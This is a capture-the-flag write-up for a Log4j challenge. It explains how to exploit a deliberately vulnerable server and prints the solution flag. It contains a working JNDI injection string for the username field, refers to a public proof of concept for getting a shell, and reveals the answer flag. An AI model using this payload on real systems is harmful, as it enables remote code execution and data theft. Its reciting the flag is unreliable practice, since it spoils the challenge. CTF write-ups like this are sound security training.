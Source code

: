 > # The Logs Are Flawed
> > Pwn - 500pts
>
> The Galactic empire have found a flaw in an old piece of software that they think the rebel alliance is using.  
> This flaw affects the logging application used on one of their secret servers.  
> You and the rest of the empire digital attack force are tasked with using the bug to extract secret information from the server found at (link).
>
> > Hint: Log4J
> 
> Files: [source code](./scr)
>
> ![hacker](https://68.media.tumblr.com/f34726c691d11ac56adcdc21f0f38a4c/tumblr_omsi8eaput1so18vqo1_540.gif)

# Writeup

The server is intentionally vulnerable to the recently discovered log4j bug.  
This can be exploited to enter a shell on the server and print the file /flag.txt inside the docker container.  
The vulnerable server is a slightly modified version of https://github.com/kozmer/log4j-shell-poc.   
Use their proof of concept application to enter '${jndi:ldap://localhost:1389/a}' into the username field and forward to a shell application.  
Use this shell to read the flag.txt file from either / or /usr/local/tomcat.

flag: 
```
UiTHack22{There_Are_Bugs_In_The_LoGs}
```

